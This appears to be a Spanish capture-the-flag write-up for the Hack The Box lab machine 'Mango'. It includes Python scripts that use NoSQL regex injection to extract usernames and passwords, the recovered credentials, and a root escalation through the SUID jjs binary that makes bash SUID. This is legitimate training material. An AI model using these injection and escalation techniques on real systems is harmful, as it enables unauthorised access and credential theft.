 # 10.10.10.162 - Mango
![Mango](https://user-images.githubusercontent.com/96772264/205486503-983b7975-8f12-44be-83ef-f37cc3295498.png)

----------------------

Puertos abiertos: 22(ssh), 80(http), 443(https)

```console
└─$ openssl s_client -connect 10.10.10.162:443
staging-order.mango.htb, emailAddress = admin@mango.htb
└─$ whatweb http://10.10.10.162
[403 Forbidden] Apache[2.4.29], HTTPServer[Ubuntu Linux]
└─$ whatweb https://10.10.10.162
[200 OK] Apache[2.4.29], Bootstrap, Title[Mango | Search Base]
```
La web solo tiene un enlace funcional a /analytics.php, donde funciona solo al poner la ip (no mango.htb)
Hay una tabla de datos que podemos descargar al darle a "save". Aun así tampoco pude hacer mucho con eso.

![mango2](https://user-images.githubusercontent.com/96772264/205486597-767203ed-55a0-4f33-a5ab-1de82d6f54c6.PNG)

En el panel de login se manda:
```/POST a http://staging-order.mango.htb/ username=test&password=test&login=login PHPSESSID:"4h9rnhfsteketion8qoom89evt"```
![mango3](https://user-images.githubusercontent.com/96772264/205486608-b18ace9c-a0aa-41bb-a5bb-7f96218eca94.PNG)


Al ser un panel de login podemos hacer cuatro cosas:  
- Inyeccion SQL con payloads del tipo ```' or 1=1-- -``` ```' or sleep(5)-- -``` (...OR por AND y ' por "")  
- Inyeccion Type Jugling (PHP) -> "password=true"  
- Fuzzing de posibles contraseñas  
- NoSQlInyection -> contraseña[$ne]=test "La contraseña no es "test".  

Como estamos ante una web que maneja bases de datos (por lo que vimos en analytics) sera SQL o no SQL. La manera de probar el mirando el content lenght 
(El de la respuesta mala es 4022, es decir redireccion a la misma ruta) Todos los payloads sql fallan pero no NoSQL

```python
#!/usr/bin/python3

import requests
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
data = {"username":"admin","password[$ne]":"test","login":"login"}
req2 = requests.post(url, data=data, headers=headers)
print(len(req2.text))
```

Aun así entrar nos devuelve este mensaje  "Todavía se están plantando (los mangos). Perdon por la inconveniencia, pero acabamos de emepezar la granja"  
Hay inyecciones NoSQL especiales que nos pueden ayudar a obtener información:  

```python
import requests, string

caracteres = string.ascii_lowercase + "_"
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
nombre = ""
for character in caracteres:
    data = {"username[$regex]":"^" + character + ".*","password[$ne]":"test","login":"login"}
    req2 = requests.post(url, data=data, headers=headers)
    if len(req2.text) < 4022:
        print(character)
```
Conseguimos "a" y "m"  

```python3
nombre = "a"
for i in range(20):
    for character in caracteres:
        data = {"username[$regex]":"^" + nombre + character + ".*","password[$ne]":"test","login":"login"}
        req2 = requests.post(url, data=data, headers=headers)
        if len(req2.text) < 4022:
            nombre += character
            print(nombre)
```
Sale "admin", para el segundo (el que empieza por "m"), pongo ```nombre = "m"```  
No hay mas nombres por la "a", pero si los hubier se pondría ```caracteres = string.ascii_lowercase.strip("d")```  
para sacar la segunda letra (y que no fuera "d").  

```python
caracteres = string.printable
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
contraseña = ""
while True:
    for character in caracteres:
        data = {"username":"admin","password[$regex]":"^" + contraseña + re.escape(character) + ".*","login":"login"}
        req2 = requests.post(url, data=data, headers=headers)
        if len(req2.text) < 4022:
            contraseña += character
			print(contraseña)
```
Creds -> admin:t9KcS3>!0B#2, mango:h3mXK8RhU~f{]f5H  

Con estas contraseñas podemos acceder por ssh con mango ```ssh mango@10.10.10.162```
- SUIDS: /usr/bin/run-mailcap, /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs  
- PUERTOS: 127.0.0.1:27017   

En [Gtfo-bins](https://gtfobins.github.io/gtfobins) hay entradas para ambos binarios, pero solo jjs tiene SUID.  
El comando es este (ej con "whoami") y se ejecutará en contenxto privilegiado.  
```echo "Java.type('java.lang.Runtime').getRuntime().exec('whoami').waitFor()" | /jss```  
El asunto esque la shell que nos proponen ```/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)```  
se queda atascada, asi que la solución sería el comando de hacer SUID a la bash ```chmod u+s /bin/bash```  
```console
admin@mango:/home/mango$ echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()" | /jss
admin@mango:/home/mango$ bash -p
bash-4.4# whoami
root
```
Aunque tenemos que leer la flag rapidamente porque no se porque hay ocasiones en que me bajan los privilegios.  

jjs sirve para invocar el motor "Nashorn", pero dicen que tanto el comando como el motor lo eliminarán en futuras versiones de java.
Java tira de motores y entornos virtuales para funcionar, es un lenguaje un tanto extraño.  
